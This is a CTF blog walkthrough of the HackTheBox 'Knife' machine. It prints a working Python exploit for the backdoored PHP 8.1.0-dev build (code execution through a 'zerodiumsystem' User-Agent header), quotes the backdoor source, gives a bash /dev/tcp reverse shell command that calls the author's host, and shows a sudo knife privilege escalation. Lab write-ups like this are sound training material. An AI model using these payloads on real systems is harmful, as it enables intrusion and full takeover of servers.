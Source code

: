 ```yaml
---
layout: blog
type: blog
title: "HackTheBox Knife Walkthrough"
# All dates must be YYYY-MM-DD format!
date: 2021-08-06
published: true
labels:
  - CTF
  - HackTheBox
  - Security
---
```


![HTB Knife Banner](../img/knife/banner.jpg)

## Scanning And Enumeration
First, as usual, we run an Nmap scan to identify open ports and services.

![Nmap scan results](../img/knife/nmap.PNG)

A web server is running on port 80, it's hosting a one-page site with no functionality at all. it was clear to me after some enum that nothing was there, so I figured it's time to fingerprint the server in order to identify the web application software running. First,
I examined the request/response headers for any clues.

![HTTP response inspection](../img/knife/inspect_response.PNG)

There it is, the breakthrough!! the X-Powered-By header shows that the server is running **PHP/8.0.1-dev** which is vulnerable to a recently released RCE exploit.

Here's the exploit:
```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls

#!/usr/bin/env python3
import requests
import argparse

from requests.models import parse_header_links

s = requests.Session()

def checkTarget(args):
    r = s.get(args.url)
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False


def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())


def main():

    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()

    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)

if __name__ == "__main__":
    main()
```

## A Word About The Exploit

It's important to understand (or at least try to) how an exploit works before using it, and what's its backstory (at least in this case).
We can see in the exploit code that the user-agent header is being set to **zerodiumsystem(\""+args.cmd+"\");** which is weird, until you hear this: someone compromised the server used to distribute the PHP programming language and managed to push an update to the PHP Git server, the update contains code which allows a visitor (meaning someone who can control the user-agent header) to execute code of their choice on the server.

Here's part of the code added by the attacker:
```php
if (strstr(Z_STRVAL_P(enc), "zerodium")) {
    zend_try {
      zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

The code looks for the word **zerodium** in the user-agent field and executes whatever PHP code comes after it, in the exploit were using it's **system(\""+args.cmd+"\");** which is used to execute OS commands on the server.

## Gaining Access

it's time to test the exploit and verify that everything works.

![PHP exploit payload](../img/knife/php_exploit.PNG)

Here I executed the exploit with arg **whoami**, so **system("whoami")** will be executed on the server and we get back the result: **james**. The next logical step is to spawn a reverse shell since it's much easier than executing one command at a time through the exploit. To do that I started by running netcat to listen on port 4444:

```console
nc -nlvp 4444
```

Then I executed the following command:

```console
python3 exploit.py -u http://10.10.10.242/ -c "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.53/4444 0>&1'"
```

with **10.10.16.53** being the IP address of my machine. And so a reverse shell was popped.

![Netcat reverse shell](../img/knife/nc.PNG)

## Getting The User Flag

The user flag is inside **user.txt** in james' home directory.

![User flag obtained](../img/knife/user_flag.PNG)

## Privilege Escalation

To find the root flag we must gain root access. First I started by looking for SUID binaries using the command:

```console
find / -user root -perm -4000 -print 2>/dev/null
```

Nothing interesting there... So I decided to check out the the commands that user **james** can execute as root with no password needed (since I don't have any).

![Sudo privileges list](../img/knife/sudo_list.PNG)

So **james** can run the command **knife** as root. After searching for a bit and reading knife's [documentation](https://docs.chef.io/workstation/knife/), I noticed that the -c or --config option takes a Ruby file and executes it, which is exactly what we need since that Ruby file will execute as root. So I created a file called **config.rb** which contains:
```ruby
exec "/bin/bash -i"
```

![Knife command execution](../img/knife/knife_exec.PNG)

And so we popped a root shell!

## Getting The Root Flag

The root flag is inside **root.txt** in **/root** directory

![Root flag obtained](../img/knife/root_flag.PNG)